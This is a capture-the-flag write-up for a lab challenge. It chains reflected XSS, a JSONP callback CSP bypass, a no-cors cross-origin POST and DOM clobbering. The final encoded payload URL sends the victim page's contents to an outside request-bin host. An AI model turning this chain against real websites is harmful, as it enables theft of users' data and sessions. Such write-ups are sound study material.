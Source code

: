 # Xmas Shopping Site

## Solution

### XSS + CSP Bypass on Stage 1 (http://xss.allesctf.net)

We quickly find the XSS via the search bar at Stage 1 (`http://xss.allesctf.net/?search=%3C%2Fb%3E%3Ch1%3Etest%3C%2Fh1%3E`). Looking at the CSP, it is clear that we have to bypass
it finding some JSONP callback or similar where we can put our javascript:
```
Content-Security-Policy: default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';
```

Going through the request made when loading the page, this request is looking particularly interesting:

Request:
```http
GET /items.php?cb=parseItems HTTP/1.1
Host: xss.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://xss.allesctf.net/
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; PHPSESSID=vps4s6kr2a3ebnvu7tmhcvfq73
Cache-Control: max-age=0
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.14.1
Date: Wed, 27 May 2020 09:03:51 GMT
Content-Type: application/javascript
Content-Length: 244
Connection: close
Vary: Accept-Encoding

parseItems([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schön."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```

The `cb` parameter is reflected in the response and not properly sanitized, therefore we can use this to bypass the CSP.

Example payload:
```
</b><script src="http://xss.allesctf.net/items.php?cb=alert(1)//"></script>
```

### XSS on Stage 2 (http://stage2.xss.allesctf.net)

Stage 2 is where the flag is located. This means, we have to inject javascript here too.
Inspecting the html code of the page, we find this comment:
```
<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
```

On Stage 2 is a feature that lets us change the background by sending the following POST request:
```http
POST /?token=5ece45605cf6a HTTP/1.1
Host: stage2.xss.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://stage2.xss.allesctf.net/?token=5ece45605cf6a
Content-type: application/x-www-form-urlencoded
Origin: http://stage2.xss.allesctf.net
Content-Length: 8
DNT: 1
Connection: close
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; PHPSESSID=5j3o43v0t4u9pvkort75uigdm3

bg=green
```

If we change the value of the `bg` parameter to something like `123"`:
```
...
<!-- set bg color -->
<input type="hidden" id="bg" value="123"">
...
```

Looks like we can inject code here, but once again CSP is in our way:
```
Content-Security-Policy: script-src 'nonce-4LL/EQMphEFHsCGhTigoBN8LInw=' 'unsafe-inline' 'strict-dynamic'; base-uri 'none'; object-src 'none';
```
The other question is: How can we change the background from Stage 1?

### Going from Stage 1 to Stage 2

The CSP of Stage 1 allows us to make requests to http://stage2.xss.allesctf.net:
```
Content-Security-Policy: ... http://*.xss.allesctf.net ...
```
The hint earlier tells us to use CORS from Stage 1 to inject code on Stage 2, but if we try to make a CORS request:
```
> fetch("http://stage2.xss.allesctf.net/?token=5ece4d45d009f")
  Promise { <state>: "pending" }
[!] Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://stage2.xss.allesctf.net/?token=5ece4d45d009f. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing).
[!] TypeError: NetworkError when attempting to fetch resource.
```
The browser first sends a prefilght `OPTIONS` request that checks if the `Access-Control-Allow-Origin` header is set and checks if the origin is allowed.
As it turns out, we can use an option called `no-cors` that allows us to make request to servers that don't have the header set, but it doesn't allow us to look at the response, which also isn't necessary in our case.

So, this example should work:
```javascript
fetch("http://stage2.xss.allesctf.net/?token=<token>", {headers: {"Content-Type": "application/x-www-form-urlencoded"}, method: "POST", body: "bg=<payload>", credentials: "include", mode: "no-cors"})
```

### CSP Bypass on Stage 2

While figuring out how to bypass the CSP on Stage 2, I came across [Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf) and this
part of background.js looks like it could be useful:
```javascript
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```

Afterwards, I came across this article: https://blog.knownsec.com/2018/04/tctf0ctf2018-xss-writeup/.
It includes a snippet looking very similar to this one and with the help of Google Translate I figured what we had to do here was [DOM Clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)

The snipped is supposed pick one of the values from here:
```javascript
<script nonce="Tori/wA+7ciwwT0XWZ7i3TkwrwE=">
    var backgrounds = {
        'red': [
            '<img class="bg-img" src="/static/img/red.png"></img>'
        ],
        'green': [
            '<img class="bg-img" src="/static/img/green.png"></img>'
        ],
        'tree': [
            '<img class="bg-img" src="/static/img/tree.png"></img>'
        ]
    }
 </script>
```

In order for our DOM Clobbering attack to work, we need to somehow "remove" this. Luckily, the snipped comes after our injection point so we "remove" it by putting a `<a href="` at the end of our payload.

This example payload should clobber the DOM and execute the payload:
```
id"><form name="backgrounds" id="<payload>"></form><a href="
```

### Putting everything together

Our inital injection point is on Stage 1 and at first, we want to extract the token for Stage 2.
```javascript
var token = /[a-f0-9]{13}/.exec(document.body.innerHTML);
```
Next comes our payload we want to execute on Stage 2:
```javascript
var getFlag = '<script> window.location.href = "<SomeRequestbinURL>" + document.body.innerHTML.match(/CSCG{.*}/g)[1] </script>';
```
The DOM Clobbering with `getFlag`:
```javascript
var clobberPayload = 'id"><form name="backgrounds" id="' + getFlag + '"></form><a href="';
```
And last but not least comes the CORS request and the redirect to Stage 2:
```javascript
fetch("http://stage2.xss.allesctf.net/?token=" + token, {headers: {"Content-type": "application/x-www-form-urlencoded"}, method: "POST", body: "bg=" + clobberPayload, credentials: "include", mode: "no-cors"});
window.location.href = "http://stage2.xss.allesctf.net/?token=" + token;
```

Another problem was that `http://xss.allesctf.net/items.php?cb=<payload>` doesn't accept `>` and `<`. To bypass this, I used `decodeURI`.
If we shorten everything a bit and encode everything correctly, we get the following url we can submit to the admin:
```
http://xss.allesctf.net/?search=%3C%2Fb%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dvar%2520a%3D%2F%5Ba-f0-9%5D%7B13%7D%2F.exec%28document.body.innerHTML%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dvar%2520b%3DdecodeURI%28%22%252522%25253Cscript%25253Ewindow.location.href%3D%252527https%3A%2F%2Fen5ocv9177twt.x.pipedream.net%2F%252527%25252bdocument.body.innerHTML.match%28%2FCSCG%25257B.*%25257D%2Fg%29%5B1%5D%3B%25253C%2Fscript%25253E%252522%22%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dvar%2520c%3DdecodeURI%28%22id%252522%25253E%25253Cform%252520name%3D%252522backgrounds%252522%252520id%3D%22%29%252bb%252bdecodeURI%28%22%252522%25253E%25253C%2Fform%25253E%25253Ca%252520href%3D%252527%22%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dfetch%28%22http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D%22%252ba%2C%7Bheaders%3A%7B%22Content-type%22%3A%22application%2Fx-www-form-urlencoded%22%7D%2Cmethod%3A%22POST%22%2Cbody%3A%22bg%3D%22%252bc%2Ccredentials%3A%22include%22%2Cmode%3A%22no-cors%22%7D%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dwindow.location.href%3D%22http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D%22%252ba%3B%2F%2F%27%3E%3C%2Fscript%3E
```

![](flag.png)

Flag: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`

### Mitigation

Always sanitize user input.


